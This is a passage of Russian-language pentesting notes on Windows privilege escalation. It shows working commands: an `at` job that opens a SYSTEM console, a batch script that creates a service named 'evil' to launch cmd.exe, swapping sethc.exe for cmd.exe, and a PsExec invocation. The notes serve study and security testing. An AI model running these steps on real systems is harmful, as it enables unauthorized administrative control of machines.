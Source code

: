 Подробнее можно почитать в статье [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

# 3. Способы повышения привилегий Windows

Windows и Linux несут обычное число уязвимостей

Windows-сервер
- полностью пропатченный встречается гораздо чаще
- ремя выхода патчей зачастую меньше

## Способы повышения

### Через планировщик задач

добавить задачу с помощью двух утилит:
- `at`
    - запустит задачу от имени системы
- `schtasks`
    - запустит задачу от имени пользователя, добавившего задание

запустить консоль с правами системы:

```cmd
at 13:01 /interactive cmd
```

### Через добавление сервиса

который будет запускать необходимый файл или выполнять команду

```cmd
@break off title root
Cls
echo Creating service.
sc create evil binpath= "cmd.exe /K start" type= own
type= interact > nul 2>&1
echo Starting service.
sc start evil > nul 2>&1
echo Standing by...
ping 127.0.0.1 -n 4 > nul 2>&1
echo Removing service.
echo.
sc delete evil > nul 2>&1
```

### Через подмену системной утилиты

`C:\windows\system32\sethc.exe, например`, на `cmd.exe`. Если после этого разлогиниться и нажать несколько раз клавишу Shift, то появится консоль с системными правами. Что касается автоматизированных способов, то на ум сразу же приходит Metasploit и его getsystem.

Альтернативным вариантом можно считать PsExec от Sysinternals `psexec -i -s -d cmd.exe`
